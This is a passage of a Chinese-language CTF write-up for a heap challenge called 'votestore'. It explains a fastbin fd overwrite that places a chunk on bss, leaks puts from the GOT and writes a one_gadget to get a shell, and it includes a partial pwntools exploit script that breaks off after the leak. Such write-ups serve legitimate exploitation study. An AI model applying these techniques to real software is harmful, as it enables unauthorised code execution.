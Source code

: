 如果视`0x6010a0`为chunk头，那么只要反复交互，使`interact`达到0x41就可以过堆块验证

那么先释放掉堆块后改`fd`为`0x6010a0`就可以将堆块分配到bss上，接下来malloc以后我们就能操作`ptr`了。
将`ptr`修改为`0x601020`再`show`，就可以读出`puts@libc`，然后计算libcBase，在原地写上oneGadget，
就可以拿到shell了

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'

def payload(lo:int):
    global sh
    if lo:
        sh = process('./votestore')
        if lo & 2:
            gdb.attach(sh)
    else:
        context.proxy = (socks.SOCKS5, '127.0.0.1', 1080)
        sh = remote('192.168.16.186', 9999)
    libc = ELF('./votestore.so')

    def addn(hooked:bool=False):
        sh.sendlineafter(b'ice :', b'1')

    def edit(f1:bytes, f2:bytes, shell:bool=False):
        sh.sendlineafter(b'ice :', b'2')
        sh.sendafter(b'name:', f1)
        if shell:
            return
        sh.sendafter(b'data:', f2)

    def deln():
        sh.sendlineafter(b'ice :', b'3')

    def show() -> tuple[bytes]:
        sh.sendlineafter(b'ice :', b'4')
        sh.recvuntil(b'name:')
        name = sh.recvline()
        sh.recvuntil(b'data:')
        data = sh.recvline()
        return name, data

    def eout():
        sh.sendlineafter(b'ice :', b'5')

    # increase interaction time
    addn()
    deln()
    for _ in range(0x40 - 3):
        show()

    # alloc at bss 0x6010a0 and mod the ptr to 0x601020(puts@libc)
    edit(p64(0x6010a0), b'nodata')
    addn()
    addn()
    edit(p64(0x601020), b'nodata')
    # edit(p64(0x601040), p64(0x4006f6)) # testing other libc addr

    # then read out the libc(puts) on got and calc one gadget
    puts, f2 = show()
    debug(f'{puts = }; {f2 = }')
```